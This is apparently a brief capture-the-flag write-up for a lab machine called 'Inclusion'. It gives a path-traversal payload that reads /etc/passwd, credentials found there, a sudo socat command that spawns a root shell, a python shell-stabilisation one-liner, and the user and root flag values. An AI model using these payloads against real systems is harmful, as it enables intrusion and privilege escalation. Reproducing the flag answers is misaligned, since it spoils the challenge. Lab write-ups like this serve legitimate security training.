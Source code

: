# Inclusion

## Credentials
`falconfeast:rootpassword`

## Vulnerabilities

### Local File Inclusion
- `/article?name=../../../../etc/passwd` 
- `#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false` found as comment in /etc/passwd

## Privilege Escalation

### Sudo
- `sudo socat stdin exec:/bin/sh` got root access
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` shell stabilisation

### Answers
1. user flag
60989655118397345799

2. root flag
42964104845495153909